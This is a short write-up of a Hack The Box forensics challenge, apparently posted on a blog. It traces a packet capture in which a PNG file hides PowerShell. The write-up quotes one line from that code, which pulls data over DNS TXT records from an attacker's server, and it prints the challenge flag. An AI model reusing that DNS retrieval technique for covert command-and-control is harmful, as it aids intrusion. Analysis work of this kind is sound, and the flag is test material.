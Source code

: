 ```yaml
---
layout: post
title:  Automation Foresnsics PCAP analysis Powershell Scripts Wireshark
image: /assets/img/HTB CA 2022.jpg
date:   2022-08-29 21:28:48
tags:
- forensics
- pcap
description: Automation Foresnsics PCAP analysis Powershell Scripts Wireshark
categories:
- forensics
---
```


Automation Foresnsics PCAP analysis Powershell Scripts Wireshark

![](/assets/img/2022-05-19-14-06-07.png)
Vinyr's threat intelligence is monitoring closely all APT groups from every possible galaxy, especially the most dangerous one, longhir. As stated by an anonymous threat intelligence officer, the malicious actors tend to automate their initial post-exploitation enumeration so they can have less on-keyboard time. You can find such an example in the provided network capture generated by a recent incident. Analyse it and find out what they are up to.

The first thing we observe when we open the pcap file is there is a suspicious png file being transmitted. By downloading it and examining it with a hex editor, we find powershell code. By decoding the powershell we see that some of the information is downloaded by the resolve dns command:
Resolve-DnsName -type TXT -DnsOnly windowsliveupdater.com -Server 147.182.172.189|Select-Object -Property Strings;
After decoding said command and getting the information from the dns traffic we decrypt and get the flag
HTB={y0u_c4n_4utom4t3_but_y0u_c4nt_h1de}
![](/assets/img/2022-05-19-14-21-45.png)